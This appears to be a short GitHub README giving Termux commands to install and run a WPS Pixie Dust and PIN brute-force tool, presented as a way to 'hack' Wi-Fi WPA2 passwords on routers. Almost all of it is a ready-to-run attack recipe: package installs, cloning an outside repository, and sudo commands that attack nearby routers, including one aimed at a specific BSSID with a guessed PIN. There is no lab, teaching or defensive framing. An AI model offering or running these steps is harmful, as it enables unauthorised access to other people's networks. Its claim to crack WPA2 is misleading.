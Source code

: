 # Wi-Fi WPA2 PassWord HACK ONLY ROUTER

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw openssl

# download only root user

pkg install pip

# installing Tool ComMand

pkg install git

pkg install python3


git clone https://github.com/HeartHaNterAlex/wifi


# only one command run


sudo python wifi/ps.py -i wlan0 -K

# select Host number press inter attack 

# manual pin attack 🧷

sudo python3 ps.py -i wlan0 -b d9:90:4C:C9:D0:A7 -B -p 1234
# 80% Wi-Fi hack
sudo python3 ps.py -i wlan0 --pbc
